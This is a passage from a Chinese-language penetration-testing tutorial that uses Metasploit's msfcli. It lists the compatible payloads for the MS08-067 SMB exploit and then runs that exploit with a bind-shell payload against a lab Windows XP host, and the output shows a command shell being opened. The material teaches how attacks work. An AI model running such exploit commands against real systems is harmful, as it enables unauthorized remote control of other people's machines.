 若要查看与此模块兼容的有效载荷，请使用`P`模式。尝试**`msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 P`**，如示例 4-13 所示。

示例 4-13. Msfcli 中的模块有效载荷

```
root@kali:~# **msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 P**
[*] Please wait while we load the module tree...

Compatible payloads
===================

   Name                                             Description
   ----                                             -----------
   generic/custom                                   Use custom string or file as payload. Set
                                                      either PAYLOADFILE or PAYLOADSTR.
   generic/debug_trap                               Generate a debug trap in the target process
   generic/shell_bind_tcp                           Listen for a connection and spawn a command
                                                      shell
   generic/shell_reverse_tcp                        Connect back to attacker and spawn a command
                                                      shell
   generic/tight_loop                               Generate a tight loop in the target process
--*snip*--
```

这次，我们将使用绑定 shell 有效载荷。回想一下，绑定 shell 只是在目标机器的本地端口上监听。在有效载荷执行后，由我们的攻击机器连接到目标机器。回想我们在 Msfconsole 中的工作，选择一个有效载荷需要额外的有效载荷特定选项，我们可以通过`O`标志再次查看。

因为我们的绑定 shell 不会回调到攻击机器，所以我们不需要设置`LHOST`选项，并且可以暂时将`LPORT`选项保持为默认的 4444。看起来我们已经准备好再次利用 Windows XP 目标。最后，要告诉 Msfcli 运行漏洞，我们使用`E`标志（如示例 4-14 所示）。

示例 4-14. 在 Msfcli 中运行漏洞

```
root@kali:~# **msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 PAYLOAD=windows/shell_bind_tcp E**
[*] Please wait while we load the module tree...

RHOST => 192.168.20.10
PAYLOAD => windows/shell_bind_tcp
[*] Started bind handler ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Command shell session 1 opened (192.168.20.9:35156 -> 192.168.20.10:4444)
    at 2015-08-31 16:43:54 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

看起来一切正常，我们得到了另一个 shell。但这次，与其在指定的本地端口 4444 上启动反向处理程序，Metasploit 启动了一个用于绑定 shell 的处理程序❶。在 Metasploit 发送漏洞字符串后，绑定处理程序将自动连接到有效载荷指定的端口并连接到 shell。再次，我们已成功控制目标机器。
